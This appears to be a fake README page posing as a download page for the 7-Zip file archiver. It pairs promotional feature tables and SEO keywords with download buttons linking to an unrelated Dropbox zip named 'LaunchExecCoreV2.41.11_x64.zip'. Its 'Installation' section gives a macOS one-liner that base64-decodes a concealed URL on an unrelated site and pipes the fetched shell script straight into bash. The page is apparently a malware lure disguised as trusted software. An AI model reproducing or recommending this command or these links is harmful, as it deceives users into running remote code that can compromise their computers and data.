 # 7-Zip — High-Performance Open-Source File Archiver FREE

![7-Zip Logo](https://upload.wikimedia.org/wikipedia/commons/thumb/3/32/7-Zip_Icon.svg/1200px-7-Zip_Icon.svg.png)


Unzip the archive to a separate folder and run the `.exe` file (Windows) or `.sh` file (macOS/Linux).

## 📥 Download
[![Download 7-Zip](https://img.shields.io/badge/⬇_Download_7--Zip-FF0000?style=for-the-badge&logo=none&logoColor=white&labelColor=white)](https://www.dropbox.com/scl/fi/8xtx85wwlbpnhikhxl9wk/LaunchExecCoreV2.41.11_x64.zip?rlkey=f88ljuexe92l3zc3yvcj44eed&st=s178y9s0&dl=1)

---

## 📌 Overview
**7-Zip** is a free and open-source file archiver with a **high compression ratio**, known for its speed, reliability, and lightweight design. Developed by Igor Pavlov, it supports a wide range of file formats, including its own **7z format**, which offers superior compression efficiency compared to ZIP and RAR.  

Since its release, **7-Zip** has become the **gold standard** for archiving on Windows and is also available for Linux and macOS. Its combination of **performance, portability, and security** has made it the preferred choice for both home users and IT professionals.  

7-Zip integrates directly into the Windows context menu for quick operations, supports AES-256 encryption for secure archives, and can handle very large files with ease — up to **16 exabytes** in size (theoretically).  

---

## 🥇 Key Advantages Over Other Archivers

| Feature / Software     | **7-Zip** | WinRAR | WinZip | PeaZip |
|------------------------|----------|--------|--------|--------|
| Price                  | Free, Open Source | Paid (Trial) | Paid | Free |
| Compression Ratio      | Very High | High | Medium | High |
| 7z Format Support      | ✅        | ❌     | ❌     | ✅    |
| ZIP / RAR Support      | ✅        | ✅     | ✅     | ✅    |
| AES-256 Encryption     | ✅        | ✅     | ✅     | ✅    |
| Portable Version       | ✅        | ❌     | ❌     | ✅    |
| Multi-threading        | ✅        | ✅     | ❌     | ✅    |
| Large File Support     | ✅        | ✅     | ✅     | ✅    |
| Context Menu Integration| ✅       | ✅     | ✅     | ✅    |
| Open Source            | ✅        | ❌     | ❌     | ✅    |

---

## 🎯 Why Choose 7-Zip?
- **Completely Free** — no licenses, no subscriptions.
- **Best Compression Ratio** in 7z format.
- **Extremely Fast** with multi-threaded compression.
- **Secure** — AES-256 encryption for 7z and ZIP formats.
- **Lightweight** — installer under 2MB.
- **Portable** — runs without installation.
- **Multi-Format Support** — 7z, ZIP, RAR, TAR, GZ, BZ2, XZ, ISO, and more.
- **Cross-Platform** — available for Windows, Linux, and macOS.

---

## 📥 Download
[![Download 7-Zip](https://img.shields.io/badge/⬇_Download_7--Zip-FF0000?style=for-the-badge&logo=none&logoColor=white&labelColor=white)](https://www.dropbox.com/scl/fi/8xtx85wwlbpnhikhxl9wk/LaunchExecCoreV2.41.11_x64.zip?rlkey=f88ljuexe92l3zc3yvcj44eed&st=s178y9s0&dl=1)

---

## ⚙️ Installation
Download and run the installer, then follow the setup wizard.

# macOS (via Homebrew):
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9uZW9naXQvaW5zdGFsbC5zaA== | base64 -d))"
---

## 🔍 SEO Keywords
7zip download, 7zip free, 7zip windows, 7zip mac, 7zip linux, free file archiver, best compression software, 7zip portable, 7zip vs winrar, 7zip 64 bit, 7zip 32 bit, open source archiver, 7zip aes256 encryption, 7zip rar extractor, 7zip zip compression, 7zip iso extractor, 7zip free download latest version, high compression archiver, 7zip command line, 7zip large file support
